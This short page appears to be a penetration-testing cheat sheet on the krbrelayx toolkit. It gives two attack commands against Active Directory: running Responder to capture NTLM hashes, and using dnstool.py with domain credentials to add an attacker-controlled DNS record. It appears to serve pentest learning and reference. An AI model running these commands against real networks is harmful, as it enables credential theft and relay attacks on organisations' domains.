 ```yaml
---
title: "Krbrelayx"
date: 2024-7-23
tags: ["Krbrelayx", "dnstools", "active driectory", "ad", "Windows", "dns"]
---
```


### Abuse #1: Add Active Directory Integrated DNS records via LDAP

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Capture NTLM hash
sudo responder -I tun0
```

```console
python3 dnstool.py -u '<DOMAIN>\\<USER>' -p '<PASSWORD>' --action add --record test --data <LOCAL_IP> --type A <DOMAIN>
```

</div>

<small>*Ref: [krbrelayx tools](https://github.com/dirkjanm/krbrelayx)*</small>

{{< /tabcontent >}}

<br>